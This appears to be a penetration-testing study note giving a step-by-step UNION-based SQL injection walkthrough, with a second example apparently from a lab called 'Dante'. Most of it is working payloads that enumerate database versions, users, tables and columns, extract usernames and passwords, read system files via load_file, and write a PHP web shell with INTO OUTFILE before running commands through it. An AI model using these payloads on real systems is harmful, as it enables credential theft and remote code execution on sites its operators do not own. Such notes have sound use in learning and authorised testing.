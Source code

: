 #### example 1

First get out error with single quote

`/debug.php?id='`

Then use "order by" to find all columns.  Keep increasing until you have an error!  If error occurs on 4, then you have 3 columns!
```
/debug.php?id=1 order by 1,2,3
```

Next, we use UNION to discover which columns are being displayed in the page:
```
/debug.php?id=1 union all select 1, 2, 3
```


We will target #3, as it seems to have the most space available.
```
/debug.php?id=1 union all select 1, 2, @@version
```

```
/debug.php?id=1 union all select 1, 2, user()
```

Enumerate DB tables and column structures:
```
/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables
```

Target users table and retrieve the column names:
```
/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
```

Extract usernames and passwords:
```
/debug.php?id=1 union all select 1, username, password from users
```

#### Reading files
```
/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```

Notice when we have an error, we get the whole file path.  

We can use this info to craft a malicious php file and place it into the root web directory.
```
/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

While we do get an error message, the file did get created and works just fine:
```
/backdoor.php?cmd=ipconfig
```

#### example 2
Example from Dante:
```
http://172.16.1.12/blog/single.php?id='
```

The above threw an error:
>You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1

We append some known tricks to break out the syntax:
	* If nothing happens here, just continue on to UNION statements!
```
http://172.16.1.12/blog/single.php?id=' -- -
```

We then build up the UNION statement, starting at 1, until the web page renders properly again.  Also, we can see some of the numbers on screen, we can pick which entry is good for our details next.
```
' UNION select 1,2,3,4,5,6,7,8,9-- -
```

Find the version of MariaDB:
```
' UNION select 1,version(),3,4,5,6,7,8,9-- -
```
10.4.13-MariaDB

Retrieve Database name:
```
' UNION select 1,database(),3,4,5,6,7,8,9-- -
```
blog_admin_db

Current user:
```
' UNION select 1,user(),3,4,5,6,7,8,9-- -
```

datadir:
```
' UNION select 1,@@datadir,3,4,5,6,7,8,9-- -
```

